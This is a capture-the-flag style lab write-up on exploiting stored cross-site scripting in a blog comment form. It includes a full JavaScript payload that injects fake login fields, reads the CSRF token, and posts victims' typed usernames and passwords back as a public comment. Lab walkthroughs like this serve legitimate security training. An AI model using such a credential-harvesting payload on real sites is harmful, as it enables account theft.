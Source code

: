 ## Solution steps

- Open any blog post and write a comment to trigger an alert with random name and email.
- Notice that you can trigger an alert easily with this kind of payload: `<script>alert(1)</script>`
- But in this lab we have to steal victim's credentials, then use it to log in to the victim's account.

- This Lab has 2 solutions, one using Burp Collaborator and another without using Burp Collaborator. I will explain the steps without using burp collaborator as I don't have the premium version. But I will paste the another solution at the bottom from their official solution for your and my convenience :)

### Without using Burp Collaborator

- This solution is considered less subtle because this will make the victim post their credentials within a blog comment and every user visiting the page will be able to see it.
- Open Burp suite and set-up proxy (Keep intercept off).
- Post a random comment.
- From Http history, view `POST /post/comment` and notice that the request contains your session cookie and a `csrf` parameter.
- Copy the following payload and paste it as comment with random name and email:
  ```html
  <input type="text" name="username">
  <input type="password" name="password" onchange="hax()">

  <script>
  function hax() {
  var token = document.getElementsByName('csrf')[0].value;
  var username = document.getElementsByName('username')[0].value;
  var password = document.getElementsByName('password')[0].value;

  var data = new FormData();
  data.append('csrf',token)
  data.append('postId',5);
  data.append('comment',`${username}:${password}`);
  data.append('name','chris');
  data.append('email','chris@01.com');
  data.append('website','http://www.chris.com');

  fetch('/post/comment', {
  method: 'POST',
  mode: 'no-cors',
  body: data
  });
  }
  </script>


- This script is designed to exfiltrate the victim’s username and password by leveraging a vulnerable comment form. The form fields `<input name="username">` and `<input name="password">` capture user credentials. When the user types a password, the onchange event triggers the `hax()` function.
- Inside `hax()`, the script extracts:
  - The CSRF token from a hidden input `(name="csrf")`,
  - The values of the username and password fields.
- It then constructs a `FormData` object, which includes:
  - The CSRF token,
  - The stolen credentials formatted as username:password in the comment field,
  - Dummy name, email, and website values.
- Finally, it sends this data using a `fetch()` request to the vulnerable site’s `/post/comment` endpoint. Since `mode: 'no-cors'` is used, the browser won’t block the request, though you won’t see a response in the console. The credentials are silently submitted and saved as a comment on the post.
